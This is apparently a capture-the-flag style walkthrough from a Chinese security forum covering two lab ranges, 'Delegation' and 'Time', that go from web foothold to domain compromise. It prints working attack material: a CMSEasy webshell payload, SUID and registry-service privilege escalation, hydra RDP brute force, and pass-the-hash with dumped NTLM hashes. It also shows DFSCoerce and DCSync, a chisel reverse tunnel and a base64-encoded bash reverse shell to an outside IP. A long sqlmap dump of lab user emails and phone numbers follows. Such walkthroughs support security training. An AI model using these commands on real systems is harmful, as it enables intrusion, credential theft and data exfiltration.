

# 内网打靶-春秋云镜双靶场第二篇 - 先知社区

内网打靶-春秋云镜双靶场第二篇

- - -

# 春秋云镜-Delegation

# 外网打点

## 漏洞探测

访问网站发现是`CMSEASY`系统建站，随便试了试弱口令，进来了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174543-04401de6-b454-1.png)

版本发现是V7，寻找相关漏洞

发现[https://jdr2021.github.io/2021/10/14/CmsEasy\_7.7.5\_20211012%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E5%92%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90](https://jdr2021.github.io/2021/10/14/CmsEasy_7.7.5_20211012%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E5%92%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90)

直接打即可

## 漏洞利用

```plain
GET:
case=template&act=save&admin_dir=admin&site=default

POST:
sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php @eval($_POST[1]);phpinfo();?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240117194509-de03896c-b52d-1.jpg)

查看flag发现没有权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174603-1057eb68-b454-1.png)

## 提权

还是之前的方法，查询具有SUID权限的指令

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174608-12e85e4e-b454-1.png)

发现`diff`，参考[https://gtfobins.github.io/gtfobins/diff/](https://gtfobins.github.io/gtfobins/diff/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174614-1660c368-b454-1.png)

查看flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174619-198dcf5e-b454-1.png)

给了一段话

```plain
Great job!!!!!!
Here is the hint: WIN19\Adrian
I'll do whatever I can to rock you...
```

明显是一个用户名，先留着

# 内网横向

## 信息搜集

上线VIPER后fscan扫描

```plain
meterpreter > shell -c './fscan -h 172.22.4.36/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.4.36     is alive
(icmp) Target 172.22.4.45     is alive
(icmp) Target 172.22.4.7      is alive
(icmp) Target 172.22.4.19     is alive
[*] Icmp alive hosts len is: 4
172.22.4.45:80 open
172.22.4.36:80 open
172.22.4.36:22 open
172.22.4.36:21 open
172.22.4.36:3306 open
172.22.4.19:445 open
172.22.4.7:445 open
172.22.4.45:445 open
172.22.4.19:139 open
172.22.4.7:139 open
172.22.4.45:139 open
172.22.4.19:135 open
172.22.4.45:135 open
172.22.4.7:135 open
172.22.4.7:88 open
[*] alive ports len is: 15
start vulscan
[*] NetInfo 
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] NetInfo 
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetBios 172.22.4.45     XIAORANG\WIN19                
[*] NetBios 172.22.4.7      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] OsInfo 172.22.4.7   (Windows Server 2016 Datacenter 14393)
[*] NetInfo 
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] NetBios 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
[*] WebTitle http://172.22.4.36        code:200 len:68100  title:中文网页标题
[*] WebTitle http://172.22.4.45        code:200 len:703    title:IIS Windows Server
```

## 代理搭建

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174628-1eff9d32-b454-1.png)

靶机上执行

```plain
client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

## 攻击域用户一(注册表提权)

搭好代理，直接用hydra进行爆破(刚刚已经获得了用户名)

```plain
proxychains hydra 172.22.4.45 rdp -l Adrian -P rockyou.txt
```

得到密码

```plain
Adrian babygirl1
```

提示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174655-2ef3e5d6-b454-1.png)

使用kali的`rdesktop`登录

```plain
proxychains rdesktop 172.22.4.45
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174725-40e1edec-b454-1.png)

此时便可以修改密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174735-469d78d2-b454-1.png)

桌面上直接放了一个工具，这里对工具进行利用，探测漏洞

```plain
Set-ExecutionPolicy Bypass -Scope Process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174742-4b4dc490-b454-1.png)

发现注册表相关漏洞，修改启动项为我们的恶意木马。

```plain
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\1705227157.exe" /f
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174746-4dc19ecc-b454-1.png)

再使用`sc start gupdate`即可以`system`权限上线VIPER

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174754-5279735e-b454-1.png)

获取第二个flag。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174813-5daf7638-b454-1.png)

但是不知道为什么老是卡在启动中，只有片段时刻的管理员权限，因此上线后立马密码抓取

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174822-6317a6ea-b454-1.png)

```plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab:::
Adrian:1003:aad3b435b51404eeaad3b435b51404ee:618af274695162836fc7f3afd7a234f1:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:44d8d68ed7968b02da0ebddafd2dd43e:::
```

PTH

```plain
proxychains  smbexec.py -hashes :ba21c629d9fd56aff10c3e826323e6ab administrator@172.22.4.45 -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174836-6b7b1966-b454-1.png)

接下来创个用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174843-6fb94e12-b454-1.png)

## 攻击域控(DFSCoerce强制认证)

RDP登录

使用Mimikatz抓取密码，发现服务用户`WIN19$`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174847-71ce2948-b454-1.png)

查询域内委派关系

```plain
proxychains findDelegation.py xiaorang.lab/'WIN19$' -hashes :6bdf6f041c914c9fd096f6a55bf63342 -dc-ip 172.22.4.7
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174855-768e0e12-b454-1.png)

非约束委派，这个需要我们强制域控访问这台主机，才能获取到相关信息，这里利用`DFSCoerce`强制DC访问域成员进而获取TGT。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174926-895451d2-b454-1.png)

使用`Rubeus.exe`导入票据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174937-8f8902fa-b454-1.png)

抓取域管哈希

```plain
>mimikatz_x64.exe "lsadump::dcsync /domain:xiaorang.lab /user:xiaorang\Administrator" exit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174945-9421d2f6-b454-1.png)

使用wmiexec进行PTH即可获取flag

```plain
proxychains wmiexec.py -hashes :4889f6553239ace1f7c47fa2c619c252 administrator@172.22.4.7 -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174948-96711fd0-b454-1.png)

### 攻击域用户二

有了域管hash，同上PTH即可

```plain
proxychains wmiexec.py -hashes :4889f6553239ace1f7c47fa2c619c252 xiaorang.lab/administrator@172.22.4.19 -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116174955-9a500f12-b454-1.png)

# 春秋云镜-Time

# 外网打点

## 信息搜集

fscan扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175111-c7b38f42-b454-1.png)

发现7687端口开放，7687为Neo4j端口

## 漏洞利用

搜索相关RCE漏洞发现

[https://github.com/zwjjustdoit/CVE-2021-34371.jar](https://github.com/zwjjustdoit/CVE-2021-34371.jar)

直接利用即可

```plain
java -jar rhino_gadget.jar rmi://39.101.181.53:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTkuMy4yMTUuMTk4Lzc3NzcgMD4mMQ}|{base64,-d}|{bash,-i}"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175119-cc325dfa-b454-1.png)

而后在`/home/neo4j`下发现flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175122-ce645a4c-b454-1.png)

# 内网横向

## 信息搜集

使用VIPER上线后，用fscan进行扫描

```plain
meterpreter > shell -c './fscan -h 172.22.6.35/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.38     is alive
(icmp) Target 172.22.6.36     is alive
[*] Icmp alive hosts len is: 4
172.22.6.12:135 open
172.22.6.38:80 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:88 open
172.22.6.25:445 open
172.22.6.38:22 open
172.22.6.36:22 open
172.22.6.36:7687 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo 
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] NetInfo 
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetBios 172.22.6.25     XIAORANG\WIN2019              
[*] OsInfo 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.6.12     [+] DC:DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.6.38        code:200 len:1531   title:后台登录
[*] WebTitle https://172.22.6.36:7687  code:400 len:50     title:None
```

## 代理搭建

VPS作为服务端

```plain
./chisel server -p 7000 -reverse
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175136-d677638c-b454-1.png)

靶机作为客户端

```plain
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175156-e27a5518-b454-1.png)

## 攻击域成员一(Web服务)

我们发现`172.22.6.38`具备Web服务，设置好代理好访问此网站

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175207-e8c4032e-b454-1.png)

发现只有一个登录接口，尝试密码爆破后无果，因此使用bp抓包放入sqlmap尝试SQL注入，burp需要在用户配置处设置下代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175215-ee0659e0-b454-1.png)

而后抓包即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175218-efc628fa-b454-1.png)

此时将数据包保存在sql.txt中，放入sqlmap中进行扫描，直接`-dump`获取数据

```plain
proxychains sqlmap -r "sql.txt"  -dump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175234-f914fd8c-b454-1.png)

得到flag及大量数据

```plain
+-----+----------------------------+-------------+-----------------+
| id  | email                      | phone       | username        |
+-----+----------------------------+-------------+-----------------+
| 245 | chenyan@xiaorang.lab       | 18281528743 | CHEN YAN        |
| 246 | tanggui@xiaorang.lab       | 18060615547 | TANG GUI        |
| 247 | buning@xiaorang.lab        | 13046481392 | BU NING         |
| 248 | beishu@xiaorang.lab        | 18268508400 | BEI SHU         |
| 249 | shushi@xiaorang.lab        | 17770383196 | SHU SHI         |
| 250 | fuyi@xiaorang.lab          | 18902082658 | FU YI           |
| 251 | pangcheng@xiaorang.lab     | 18823789530 | PANG CHENG      |
| 252 | tonghao@xiaorang.lab       | 13370873526 | TONG HAO        |
| 253 | jiaoshan@xiaorang.lab      | 15375905173 | JIAO SHAN       |
| 254 | dulun@xiaorang.lab         | 13352331157 | DU LUN          |
| 255 | kejuan@xiaorang.lab        | 13222550481 | KE JUAN         |
| 256 | gexin@xiaorang.lab         | 18181553086 | GE XIN          |
| 257 | lugu@xiaorang.lab          | 18793883130 | LU GU           |
| 258 | guzaicheng@xiaorang.lab    | 15309377043 | GU ZAI CHENG    |
| 259 | feicai@xiaorang.lab        | 13077435367 | FEI CAI         |
| 260 | ranqun@xiaorang.lab        | 18239164662 | RAN QUN         |
| 261 | zhouyi@xiaorang.lab        | 13169264671 | ZHOU YI         |
| 262 | shishu@xiaorang.lab        | 18592890189 | SHI SHU         |
| 263 | yanyun@xiaorang.lab        | 15071085768 | YAN YUN         |
| 264 | chengqiu@xiaorang.lab      | 13370162980 | CHENG QIU       |
| 265 | louyou@xiaorang.lab        | 13593582379 | LOU YOU         |
| 266 | maqun@xiaorang.lab         | 15235945624 | MA QUN          |
| 267 | wenbiao@xiaorang.lab       | 13620643639 | WEN BIAO        |
| 268 | weishengshan@xiaorang.lab  | 18670502260 | WEI SHENG SHAN  |
| 269 | zhangxin@xiaorang.lab      | 15763185760 | ZHANG XIN       |
| 270 | chuyuan@xiaorang.lab       | 18420545268 | CHU YUAN        |
| 271 | wenliang@xiaorang.lab      | 13601678032 | WEN LIANG       |
| 272 | yulvxue@xiaorang.lab       | 18304374901 | YU LV XUE       |
| 273 | luyue@xiaorang.lab         | 18299785575 | LU YUE          |
| 274 | ganjian@xiaorang.lab       | 18906111021 | GAN JIAN        |
| 275 | pangzhen@xiaorang.lab      | 13479328562 | PANG ZHEN       |
| 276 | guohong@xiaorang.lab       | 18510220597 | GUO HONG        |
| 277 | lezhong@xiaorang.lab       | 15320909285 | LE ZHONG        |
| 278 | sheweiyue@xiaorang.lab     | 13736399596 | SHE WEI YUE     |
| 279 | dujian@xiaorang.lab        | 15058892639 | DU JIAN         |
| 280 | lidongjin@xiaorang.lab     | 18447207007 | LI DONG JIN     |
| 281 | hongqun@xiaorang.lab       | 15858462251 | HONG QUN        |
| 282 | yexing@xiaorang.lab        | 13719043564 | YE XING         |
| 283 | maoda@xiaorang.lab         | 13878840690 | MAO DA          |
| 284 | qiaomei@xiaorang.lab       | 13053207462 | QIAO MEI        |
| 285 | nongzhen@xiaorang.lab      | 15227699960 | NONG ZHEN       |
| 286 | dongshu@xiaorang.lab       | 15695562947 | DONG SHU        |
| 287 | zhuzhu@xiaorang.lab        | 13070163385 | ZHU ZHU         |
| 288 | jiyun@xiaorang.lab         | 13987332999 | JI YUN          |
| 289 | qiguanrou@xiaorang.lab     | 15605983582 | QI GUAN ROU     |
| 290 | yixue@xiaorang.lab         | 18451603140 | YI XUE          |
| 291 | chujun@xiaorang.lab        | 15854942459 | CHU JUN         |
| 292 | shenshan@xiaorang.lab      | 17712052191 | SHEN SHAN       |
| 293 | lefen@xiaorang.lab         | 13271196544 | LE FEN          |
| 294 | yubo@xiaorang.lab          | 13462202742 | YU BO           |
| 295 | helianrui@xiaorang.lab     | 15383000907 | HE LIAN RUI     |
| 296 | xuanqun@xiaorang.lab       | 18843916267 | XUAN QUN        |
| 297 | shangjun@xiaorang.lab      | 15162486698 | SHANG JUN       |
| 298 | huguang@xiaorang.lab       | 18100586324 | HU GUANG        |
| 299 | wansifu@xiaorang.lab       | 18494761349 | WAN SI FU       |
| 300 | fenghong@xiaorang.lab      | 13536727314 | FENG HONG       |
| 301 | wanyan@xiaorang.lab        | 17890844429 | WAN YAN         |
| 302 | diyan@xiaorang.lab         | 18534028047 | DI YAN          |
| 303 | xiangyu@xiaorang.lab       | 13834043047 | XIANG YU        |
| 304 | songyan@xiaorang.lab       | 15282433280 | SONG YAN        |
| 305 | fandi@xiaorang.lab         | 15846960039 | FAN DI          |
| 306 | xiangjuan@xiaorang.lab     | 18120327434 | XIANG JUAN      |
| 307 | beirui@xiaorang.lab        | 18908661803 | BEI RUI         |
| 308 | didi@xiaorang.lab          | 13413041463 | DI DI           |
| 309 | zhubin@xiaorang.lab        | 15909558554 | ZHU BIN         |
| 310 | lingchun@xiaorang.lab      | 13022790678 | LING CHUN       |
| 311 | zhenglu@xiaorang.lab       | 13248244873 | ZHENG LU        |
| 312 | xundi@xiaorang.lab         | 18358493414 | XUN DI          |
| 313 | wansishun@xiaorang.lab     | 18985028319 | WAN SI SHUN     |
| 314 | yezongyue@xiaorang.lab     | 13866302416 | YE ZONG YUE     |
| 315 | bianmei@xiaorang.lab       | 18540879992 | BIAN MEI        |
| 316 | shanshao@xiaorang.lab      | 18791488918 | SHAN SHAO       |
| 317 | zhenhui@xiaorang.lab       | 13736784817 | ZHEN HUI        |
| 318 | chengli@xiaorang.lab       | 15913267394 | CHENG LI        |
| 319 | yufen@xiaorang.lab         | 18432795588 | YU FEN          |
| 320 | jiyi@xiaorang.lab          | 13574211454 | JI YI           |
| 321 | panbao@xiaorang.lab        | 13675851303 | PAN BAO         |
| 322 | mennane@xiaorang.lab       | 15629706208 | MEN NAN E       |
| 323 | fengsi@xiaorang.lab        | 13333432577 | FENG SI         |
| 324 | mingyan@xiaorang.lab       | 18296909463 | MING YAN        |
| 325 | luoyou@xiaorang.lab        | 15759321415 | LUO YOU         |
| 326 | liangduanqing@xiaorang.lab | 13150744785 | LIANG DUAN QING |
| 327 | nongyan@xiaorang.lab       | 18097386975 | NONG YAN        |
| 328 | haolun@xiaorang.lab        | 15152700465 | HAO LUN         |
| 329 | oulun@xiaorang.lab         | 13402760696 | OU LUN          |
| 330 | weichipeng@xiaorang.lab    | 18057058937 | WEI CHI PENG    |
| 331 | qidiaofang@xiaorang.lab    | 18728297829 | QI DIAO FANG    |
| 332 | xuehe@xiaorang.lab         | 13398862169 | XUE HE          |
| 333 | chensi@xiaorang.lab        | 18030178713 | CHEN SI         |
| 334 | guihui@xiaorang.lab        | 17882514129 | GUI HUI         |
| 335 | fuyue@xiaorang.lab         | 18298436549 | FU YUE          |
| 336 | wangxing@xiaorang.lab      | 17763645267 | WANG XING       |
| 337 | zhengxiao@xiaorang.lab     | 18673968392 | ZHENG XIAO      |
| 338 | guhui@xiaorang.lab         | 15166711352 | GU HUI          |
| 339 | baoai@xiaorang.lab         | 15837430827 | BAO AI          |
| 340 | hangzhao@xiaorang.lab      | 13235488232 | HANG ZHAO       |
| 341 | xingye@xiaorang.lab        | 13367587521 | XING YE         |
| 342 | qianyi@xiaorang.lab        | 18657807767 | QIAN YI         |
| 343 | xionghong@xiaorang.lab     | 17725874584 | XIONG HONG      |
| 344 | zouqi@xiaorang.lab         | 15300430128 | ZOU QI          |
| 345 | rongbiao@xiaorang.lab      | 13034242682 | RONG BIAO       |
| 346 | gongxin@xiaorang.lab       | 15595839880 | GONG XIN        |
| 347 | luxing@xiaorang.lab        | 18318675030 | LU XING         |
| 348 | huayan@xiaorang.lab        | 13011805354 | HUA YAN         |
| 349 | duyue@xiaorang.lab         | 15515878208 | DU YUE          |
| 350 | xijun@xiaorang.lab         | 17871583183 | XI JUN          |
| 351 | daiqing@xiaorang.lab       | 18033226216 | DAI QING        |
| 352 | yingbiao@xiaorang.lab      | 18633421863 | YING BIAO       |
| 353 | hengteng@xiaorang.lab      | 15956780740 | HENG TENG       |
| 354 | changwu@xiaorang.lab       | 15251485251 | CHANG WU        |
| 355 | chengying@xiaorang.lab     | 18788248715 | CHENG YING      |
| 356 | luhong@xiaorang.lab        | 17766091079 | LU HONG         |
| 357 | tongxue@xiaorang.lab       | 18466102780 | TONG XUE        |
| 358 | xiangqian@xiaorang.lab     | 13279611385 | XIANG QIAN      |
| 359 | shaokang@xiaorang.lab      | 18042645434 | SHAO KANG       |
| 360 | nongzhu@xiaorang.lab       | 13934236634 | NONG ZHU        |
| 361 | haomei@xiaorang.lab        | 13406913218 | HAO MEI         |
| 362 | maoqing@xiaorang.lab       | 15713298425 | MAO QING        |
| 363 | xiai@xiaorang.lab          | 18148404789 | XI AI           |
| 364 | bihe@xiaorang.lab          | 13628593791 | BI HE           |
| 365 | gaoli@xiaorang.lab         | 15814408188 | GAO LI          |
| 366 | jianggong@xiaorang.lab     | 15951118926 | JIANG GONG      |
| 367 | pangning@xiaorang.lab      | 13443921700 | PANG NING       |
| 368 | ruishi@xiaorang.lab        | 15803112819 | RUI SHI         |
| 369 | wuhuan@xiaorang.lab        | 13646953078 | WU HUAN         |
| 370 | qiaode@xiaorang.lab        | 13543564200 | QIAO DE         |
| 371 | mayong@xiaorang.lab        | 15622971484 | MA YONG         |
| 372 | hangda@xiaorang.lab        | 15937701659 | HANG DA         |
| 373 | changlu@xiaorang.lab       | 13734991654 | CHANG LU        |
| 374 | liuyuan@xiaorang.lab       | 15862054540 | LIU YUAN        |
| 375 | chenggu@xiaorang.lab       | 15706685526 | CHENG GU        |
| 376 | shentuyun@xiaorang.lab     | 15816902379 | SHEN TU YUN     |
| 377 | zhuangsong@xiaorang.lab    | 17810274262 | ZHUANG SONG     |
| 378 | chushao@xiaorang.lab       | 18822001640 | CHU SHAO        |
| 379 | heli@xiaorang.lab          | 13701347081 | HE LI           |
| 380 | haoming@xiaorang.lab       | 15049615282 | HAO MING        |
| 381 | xieyi@xiaorang.lab         | 17840660107 | XIE YI          |
| 382 | shangjie@xiaorang.lab      | 15025010410 | SHANG JIE       |
| 383 | situxin@xiaorang.lab       | 18999728941 | SI TU XIN       |
| 384 | linxi@xiaorang.lab         | 18052976097 | LIN XI          |
| 385 | zoufu@xiaorang.lab         | 15264535633 | ZOU FU          |
| 386 | qianqing@xiaorang.lab      | 18668594658 | QIAN QING       |
| 387 | qiai@xiaorang.lab          | 18154690198 | QI AI           |
| 388 | ruilin@xiaorang.lab        | 13654483014 | RUI LIN         |
| 389 | luomeng@xiaorang.lab       | 15867095032 | LUO MENG        |
| 390 | huaren@xiaorang.lab        | 13307653720 | HUA REN         |
| 391 | yanyangmei@xiaorang.lab    | 15514015453 | YAN YANG MEI    |
| 392 | zuofen@xiaorang.lab        | 15937087078 | ZUO FEN         |
| 393 | manyuan@xiaorang.lab       | 18316106061 | MAN YUAN        |
| 394 | yuhui@xiaorang.lab         | 18058257228 | YU HUI          |
| 395 | sunli@xiaorang.lab         | 18233801124 | SUN LI          |
| 396 | guansixin@xiaorang.lab     | 13607387740 | GUAN SI XIN     |
| 397 | ruisong@xiaorang.lab       | 13306021674 | RUI SONG        |
| 398 | qiruo@xiaorang.lab         | 13257810331 | QI RUO          |
| 399 | jinyu@xiaorang.lab         | 18565922652 | JIN YU          |
| 400 | shoujuan@xiaorang.lab      | 18512174415 | SHOU JUAN       |
| 401 | yanqian@xiaorang.lab       | 13799789435 | YAN QIAN        |
| 402 | changyun@xiaorang.lab      | 18925015029 | CHANG YUN       |
| 403 | hualu@xiaorang.lab         | 13641470801 | HUA LU          |
| 404 | huanming@xiaorang.lab      | 15903282860 | HUAN MING       |
| 405 | baoshao@xiaorang.lab       | 13795275611 | BAO SHAO        |
| 406 | hongmei@xiaorang.lab       | 13243605925 | HONG MEI        |
| 407 | manyun@xiaorang.lab        | 13238107359 | MAN YUN         |
| 408 | changwan@xiaorang.lab      | 13642205622 | CHANG WAN       |
| 409 | wangyan@xiaorang.lab       | 13242486231 | WANG YAN        |
| 410 | shijian@xiaorang.lab       | 15515077573 | SHI JIAN        |
| 411 | ruibei@xiaorang.lab        | 18157706586 | RUI BEI         |
| 412 | jingshao@xiaorang.lab      | 18858376544 | JING SHAO       |
| 413 | jinzhi@xiaorang.lab        | 18902437082 | JIN ZHI         |
| 414 | yuhui@xiaorang.lab         | 15215599294 | YU HUI          |
| 415 | zangpeng@xiaorang.lab      | 18567574150 | ZANG PENG       |
| 416 | changyun@xiaorang.lab      | 15804640736 | CHANG YUN       |
| 417 | yetai@xiaorang.lab         | 13400150018 | YE TAI          |
| 418 | luoxue@xiaorang.lab        | 18962643265 | LUO XUE         |
| 419 | moqian@xiaorang.lab        | 18042706956 | MO QIAN         |
| 420 | xupeng@xiaorang.lab        | 15881934759 | XU PENG         |
| 421 | ruanyong@xiaorang.lab      | 15049703903 | RUAN YONG       |
| 422 | guliangxian@xiaorang.lab   | 18674282714 | GU LIANG XIAN   |
| 423 | yinbin@xiaorang.lab        | 15734030492 | YIN BIN         |
| 424 | huarui@xiaorang.lab        | 17699257041 | HUA RUI         |
| 425 | niuya@xiaorang.lab         | 13915041589 | NIU YA          |
| 426 | guwei@xiaorang.lab         | 13584571917 | GU WEI          |
| 427 | qinguan@xiaorang.lab       | 18427953434 | QIN GUAN        |
| 428 | yangdanhan@xiaorang.lab    | 15215900100 | YANG DAN HAN    |
| 429 | yingjun@xiaorang.lab       | 13383367818 | YING JUN        |
| 430 | weiwan@xiaorang.lab        | 13132069353 | WEI WAN         |
| 431 | sunduangu@xiaorang.lab     | 15737981701 | SUN DUAN GU     |
| 432 | sisiwu@xiaorang.lab        | 18021600640 | SI SI WU        |
| 433 | nongyan@xiaorang.lab       | 13312613990 | NONG YAN        |
| 434 | xuanlu@xiaorang.lab        | 13005748230 | XUAN LU         |
| 435 | yunzhong@xiaorang.lab      | 15326746780 | YUN ZHONG       |
| 436 | gengfei@xiaorang.lab       | 13905027813 | GENG FEI        |
| 437 | zizhuansong@xiaorang.lab   | 13159301262 | ZI ZHUAN SONG   |
| 438 | ganbailong@xiaorang.lab    | 18353612904 | GAN BAI LONG    |
| 439 | shenjiao@xiaorang.lab      | 15164719751 | SHEN JIAO       |
| 440 | zangyao@xiaorang.lab       | 18707028470 | ZANG YAO        |
| 441 | yangdanhe@xiaorang.lab     | 18684281105 | YANG DAN HE     |
| 442 | chengliang@xiaorang.lab    | 13314617161 | CHENG LIANG     |
| 443 | xudi@xiaorang.lab          | 18498838233 | XU DI           |
| 444 | wulun@xiaorang.lab         | 18350490780 | WU LUN          |
| 445 | yuling@xiaorang.lab        | 18835870616 | YU LING         |
| 446 | taoya@xiaorang.lab         | 18494928860 | TAO YA          |
| 447 | jinle@xiaorang.lab         | 15329208123 | JIN LE          |
| 448 | youchao@xiaorang.lab       | 13332964189 | YOU CHAO        |
| 449 | liangduanzhi@xiaorang.lab  | 15675237494 | LIANG DUAN ZHI  |
| 450 | jiagupiao@xiaorang.lab     | 17884962455 | JIA GU PIAO     |
| 451 | ganze@xiaorang.lab         | 17753508925 | GAN ZE          |
| 452 | jiangqing@xiaorang.lab     | 15802357200 | JIANG QING      |
| 453 | jinshan@xiaorang.lab       | 13831466303 | JIN SHAN        |
| 454 | zhengpubei@xiaorang.lab    | 13690156563 | ZHENG PU BEI    |
| 455 | cuicheng@xiaorang.lab      | 17641589842 | CUI CHENG       |
| 456 | qiyong@xiaorang.lab        | 13485427829 | QI YONG         |
| 457 | qizhu@xiaorang.lab         | 18838859844 | QI ZHU          |
| 458 | ganjian@xiaorang.lab       | 18092585003 | GAN JIAN        |
| 459 | yurui@xiaorang.lab         | 15764121637 | YU RUI          |
| 460 | feishu@xiaorang.lab        | 18471512248 | FEI SHU         |
| 461 | chenxin@xiaorang.lab       | 13906545512 | CHEN XIN        |
| 462 | shengzhe@xiaorang.lab      | 18936457394 | SHENG ZHE       |
| 463 | wohong@xiaorang.lab        | 18404022650 | WO HONG         |
| 464 | manzhi@xiaorang.lab        | 15973350408 | MAN ZHI         |
| 465 | xiangdong@xiaorang.lab     | 13233908989 | XIANG DONG      |
| 466 | weihui@xiaorang.lab        | 15035834945 | WEI HUI         |
| 467 | xingquan@xiaorang.lab      | 18304752969 | XING QUAN       |
| 468 | miaoshu@xiaorang.lab       | 15121570939 | MIAO SHU        |
